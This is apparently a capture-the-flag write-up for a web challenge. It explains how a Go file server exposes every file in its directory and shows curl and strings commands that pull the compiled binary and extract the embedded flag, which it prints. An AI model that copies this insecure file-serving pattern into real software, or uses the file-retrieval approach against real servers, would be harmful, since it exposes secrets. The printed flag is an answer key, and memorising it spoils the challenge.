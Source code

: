 # First website

My simple first website. Ah... forgot to give you the flag.

[🔗 http://ctf.wackattack.eu:8081](http://ctf.wackattack.eu:8081)

[⬇️ first-website.tar.gz](./first-website.tar.gz)

# Writeup

The source shows that it allows LFI of any files in the current directory 

```go

func main() {
	dir, _ := os.Getwd()
	fs := http.FileServer(http.Dir(dir))
	mux := http.NewServeMux()

	mux.HandleFunc("GET /", func(w http.ResponseWriter, r *http.Request) {
		if r.URL.Path == "/" {
			http.ServeFile(w, r, filepath.Join(dir, "index.html"))
			return
		}
		http.StripPrefix("/", fs).ServeHTTP(w, r)
	})

	log.Fatal(http.ListenAndServe(":8080", mux))
}
```

Whatever we pass after / will be served. So doing `main.go` returns the source. Dockerfile shows that it compiles "server" with the flag so we can get that file and string it.

```bash
$ curl -s http://ctf.wackattack.eu:8081/server -o server
$ strings server  | grep wack
build   -ldflags="-X main.FLAG=wack{st4t1ck_w3b21t3_3x3}"
build   -ldflags="-X main.FLAG=wack{st4t1ck_w3b21t3_3x3}"
```

# Flag

```
wack{st4t1ck_w3b21t3_3x3}
```